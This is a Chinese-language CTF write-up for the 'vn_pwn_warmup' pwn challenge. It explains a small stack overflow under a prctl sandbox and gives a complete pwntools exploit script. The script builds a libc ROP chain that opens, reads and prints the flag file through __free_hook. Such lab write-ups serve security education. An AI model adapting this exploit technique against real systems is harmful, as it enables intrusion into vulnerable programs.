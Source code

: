 这个题是一个64位保护机制全开的题目

里面有两次输入，都是在栈上

第二次输入有溢出0x10，即两个字

程序开始时执行了一个`prctl`函数

![image-20210105213136408](https://static.hack1s.fun/images/2021/02/06/image-20210105213136408.png)

这个函数本身是为进程线程设置属性的

https://man7.org/linux/man-pages/man2/prctl.2.html

```C
#include <sys/prctl.h>
int prctl(int option, unsigned long arg2, unsigned long arg3,
          unsigned long arg4, unsigned long arg5);
```

我也没看懂参数，但是看wp有人说是禁用了fork和execve的系统调用



一共有两次输入

第一次输入180，不产生溢出

![image-20210105220529271](https://static.hack1s.fun/images/2021/02/06/image-20210105220529271.png)

第二次输入80，溢出0x10

![image-20210105220559363](https://static.hack1s.fun/images/2021/02/06/image-20210105220559363.png)



这个题目虽然第二次溢出时只能溢出0x10

但是这时gdb调试发现溢出的缓冲区正好能够和第一次输入连在一起

![image-20210105220405189](https://static.hack1s.fun/images/2021/02/06/image-20210105220405189.png)

也就是实际上能够控制后面整整0x180的内容

程序本身还开启了PIE，got表是不可写的，我们可以写在`__free_hook`函数的位置

或者其实也可以写在bss段、libc的bss段等等，只要有写权限就可以；



```python
from pwn import *

io = remote('node3.buuoj.cn',27337)
#io = process('./vn_pwn_warmup')
elf = ELF('./vn_pwn_warmup')

io.recvuntil('gift: ')

puts_addr = int(io.recvline()[:-1],16)

libc = ELF('../lib/libc-2.23.so')

#libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr - libc.sym['puts']

pop_rdi_ret = libc_base + next(libc.search(asm('pop rdi\nret',arch='amd64')))
pop_rsi_ret = libc_base + next(libc.search(asm('pop rsi\nret',arch='amd64')))
pop_rdx_ret = libc_base + next(libc.search(asm('pop rdx\nret',arch='amd64')))

open_addr = libc_base + libc.sym['open']
read_addr = libc_base + libc.sym['read']

free_hook = libc_base + libc.sym['__free_hook']

payload = b'a'*0x70 + b'b'*0x8
payload += p64(pop_rdi_ret)

payload2 = p64(0) + p64(pop_rsi_ret) + p64(free_hook) + p64(pop_rdx_ret) +  p64(4) + p64(read_addr)
# read(0,free_hook,4)
payload2 += p64(pop_rdi_ret) + p64(free_hook) + p64(pop_rsi_ret) + p64(0) + p64(open_addr)
# open(free_hook,7)
payload2 += p64(pop_rdi_ret) + p64(3) + p64(pop_rsi_ret) + p64(free_hook) + p64(pop_rdx_ret) + p64(100) + p64(read_addr)
# read(3,free_hook,100)

payload2 += p64(pop_rdi_ret) + p64(free_hook) + p64(puts_addr)
# puts(free_hook)

io.recvuntil('something: ')

io.send(payload2)

io.recvuntil('name?')

io.send(payload)

io.send('flag')

io.interactive()
```

调试了半天发现一直不对劲，最后发现是send和sendline的问题；
